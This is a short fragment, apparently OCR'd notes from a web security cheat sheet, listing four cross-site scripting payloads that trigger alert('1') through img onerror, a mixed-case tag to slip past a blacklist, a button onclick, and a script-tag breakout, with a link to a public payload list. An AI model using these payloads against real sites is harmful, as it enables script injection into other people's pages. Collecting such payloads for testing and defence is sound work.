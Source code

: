 `<img src onerror="alert('1')"/>`
`<ImG src onerror="alert('1')" />` - to deal with symbols blacklist
`<button onclick="alert('1')">` - xss without backslash (/)
`</script><script>alert('1')</script>`
https://github.com/payloadbox/xss-payload-list